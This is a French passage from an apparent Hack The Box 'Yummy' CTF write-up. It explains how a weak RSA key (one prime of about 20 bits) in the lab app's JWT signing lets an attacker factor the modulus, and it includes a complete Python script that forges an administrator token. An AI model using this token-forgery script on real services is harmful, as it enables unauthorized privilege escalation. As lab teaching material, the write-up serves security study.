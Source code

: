 Lorsqu'un token est extrait avec succès, il est décodé avec la méthode `jwt.decode`, qui utilise la clé publique du module `signature` (ce module contient un script python appelé `signature.py`) avec l'algorithme `RS256` spécifié. Les données décodées doivent contenir le rôle de l'utilisateur (`customer` ou `administrator`) et un email.

![verify.py file](/images/HTB-Yummy/verification_yummy.png)

Le fichier `signature.py` dans `app/config/` est un script utilisé pour générer une paire de clés RSA.  Il utilise deux nombres premiers aléatoires `q` et `n`. 

La sécurité RSA dépend du choix de nombres premiers aléatoires de grande taille pour `p` et `q`, de sorte que la factorisation de `n = p * q` soit infaisable. Ici, `q` est un nombre premier plus petit (~20 bits) ce qui facilite les attaques par force brute.  Lorsque nous trouvons `q`, `p` peut être déduit puisque `p = n // q`, ce qui nous permet de calculer la clé privée. A partir de là, nous pouvons signer nos propres jetons JWT et nous octroyer le rôle `administrator` pour l'escalade des privilèges.

![signature.py file](/images/HTB-Yummy/signature_yummy.png)

Nous allons utiliser un script python pour obtenir un jeton JWT en tant que `administrator`.

```python
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy
import jwt
import base64

original_jwt = "PUT YOUR CURRENT JWT TOKEN HERE"
s = original_jwt.split(".")[1].encode()
s = base64.b64decode(s + b'=' * (-len(s) % 4)).decode()
n = int(s.split('"n":')[1].split('"')[1])

e = 65537

factors = sympy.factorint(n)  # Returns a dictionary of prime factors
p, q = list(factors.keys())

phi_n = (p - 1) * (q - 1)

d = pow(e, -1, phi_n)


key = RSA.construct((n, e, d, p, q))
signing_key = key.export_key()

decoded_payload = jwt.decode(original_jwt, signing_key, algorithms=["RS256"], options={"verify_signature": False})

decoded_payload['role'] = 'administrator'

new_jwt = jwt.encode(decoded_payload, signing_key, algorithm='RS256')

print(new_jwt)
```
